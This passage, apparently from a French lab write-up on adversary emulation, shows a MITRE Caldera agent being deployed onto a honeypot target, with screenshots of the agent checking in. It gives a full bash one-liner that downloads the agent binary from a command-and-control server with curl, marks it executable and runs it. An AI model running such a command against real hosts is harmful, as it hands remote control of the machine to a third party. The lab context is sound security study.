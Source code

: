 ![](img/13_ad2deploy_agent.png)

1. Génération et exécution de la commande de déploiement de l'agent:
  
```bash
  server="http://192.168.243.131:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > caldera;chmod +x caldera;./caldera -server $server -group red -v
```
  
  ![](img/14_cAgent_on_cowrie.png)
  
  - Le processus de déploiement est ainsi achevé et l'agent Caldera a pu établir une connexion comme l'indique l'apparition de notre cible dans la section agents du dashboard avec le statut ``Alive,trusted``:

![](img/15_agent_alive.png)
  